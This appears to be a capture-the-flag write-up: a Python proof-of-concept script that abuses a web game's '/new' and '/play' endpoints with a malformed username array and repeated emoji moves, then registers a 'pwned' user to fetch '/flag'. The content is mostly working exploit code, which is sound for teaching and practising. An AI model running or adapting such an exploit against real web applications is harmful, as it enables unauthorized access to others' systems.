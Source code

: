 ![img.png](img.png)

Here is my Proof of Concept (PoC):
```python explot.py
import requests, json, sys
from urllib import parse

def setup_exploit(url):
    exploit_setup = requests.post(
        parse.urljoin(url, '/new'),
        data=json.dumps({'username': ["sad", 1337, "pwned"]}),
        headers={'Content-Type': 'application/json'})
    try:
        exploit_setup.raise_for_status()
    except requests.exceptions.HTTPError as err:
        print('ERROR' + str(err))
        sys.exit(1)

    state = 'unkown'
    while (state != 'end'):
        injection = requests.post(
            parse.urljoin(url, '/play'),
            cookies=exploit_setup.cookies,
            headers={'Content-Type': 'application/json'},
            data=json.dumps({'position': '📃'}, ensure_ascii=False).encode('utf8'))
        resp_json_data = json.loads(injection.text)
        state = resp_json_data.get('state')
        try:
            injection.raise_for_status()
        except requests.exceptions.HTTPError as err:
            print('ERROR' + str(err))
            sys.exit(1)


def pwn():
    setup_exploit(str(sys.argv[1]))
    pwned_user = requests.post(
        parse.urljoin(str(sys.argv[1]), 'new'),
        headers={'Content-Type': 'application/json'},
        data=json.dumps({'username': 'pwned'}))
    pwn = requests.get(
        parse.urljoin(str(sys.argv[1]), '/flag'),
        cookies=pwned_user.cookies)
```
